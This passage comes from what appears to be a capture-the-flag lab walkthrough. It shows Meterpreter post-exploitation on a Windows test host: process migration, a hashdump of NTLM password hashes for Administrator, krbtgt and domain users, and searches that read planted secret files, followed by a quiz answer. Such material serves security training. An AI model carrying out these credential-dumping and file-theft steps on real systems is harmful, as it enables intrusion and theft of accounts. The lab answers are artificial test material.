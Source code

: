 ```
 2980  764   vds.exe        x64   0        NT AUTHORITY\SYSTEM     C:\Windows\System32\vd
                                                                   s.exe
 3004  2384  ssm-agent-wor  x64   0        NT AUTHORITY\SYSTEM     C:\Program Files\Amazo
             ker.exe                                               n\SSM\ssm-agent-worker
                                                                   .exe
 3012  3004  conhost.exe    x64   0        NT AUTHORITY\SYSTEM     C:\Windows\System32\co
                                                                   nhost.exe
 3120  2436  conhost.exe    x64   0        NT AUTHORITY\SYSTEM     C:\Windows\System32\co
                                                                   nhost.exe
 3156  704   LogonUI.exe    x64   1        NT AUTHORITY\SYSTEM     C:\Windows\System32\Lo
                                                                   gonUI.exe
 3240  1492  powershell.ex  x86   0        NT AUTHORITY\SYSTEM     C:\Windows\SysWOW64\Wi
             e                                                     ndowsPowerShell\v1.0\p
                                                                   owershell.exe
 3728  764   msdtc.exe      x64   0        NT AUTHORITY\NETWORK S  C:\Windows\System32\ms
                                           ERVICE                  dtc.exe

meterpreter > migrate 780
[*] Migrating from 2436 to 780...
[*] Migration completed successfully.
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a9ac3de200cb4d510fed7610c7037292:::
ballen:1112:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
jfox:1115:aad3b435b51404eeaad3b435b51404ee:c64540b95e2b2f36f0291c3a9fb8b840:::
lnelson:1116:aad3b435b51404eeaad3b435b51404ee:e88186a7bb7980c913dc90c7caa2a3b9:::
erptest:1117:aad3b435b51404eeaad3b435b51404ee:8b9ca7572fe60a1559686dba90726715:::
ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:0b1f3ffad5291f41cdde9fafce0f4c11:::

meterpreter > search -f secrets.txt

Found 1 result...
=================

Path                                                            Size (bytes)  Modified (UTC)
----                                                            ------------  --------------
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt  35            2021-07-30 03:44:27 -0400

meterpreter > cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"
My Twitter password is KDSvbsw3849!

meterpreter > search -f realsecret.txt

Found 1 result...
=================

Path                               Size (bytes)  Modified (UTC)
----                               ------------  --------------
c:\inetpub\wwwroot\realsecret.txt  34            2021-07-30 04:30:24 -0400

meterpreter > 
meterpreter > cat "c:\inetpub\wwwroot\realsecret.txt"
The Flash is the fastest man alive
```
What is the computer name? *ACME-TEST* (Use the "sysinfo" command)
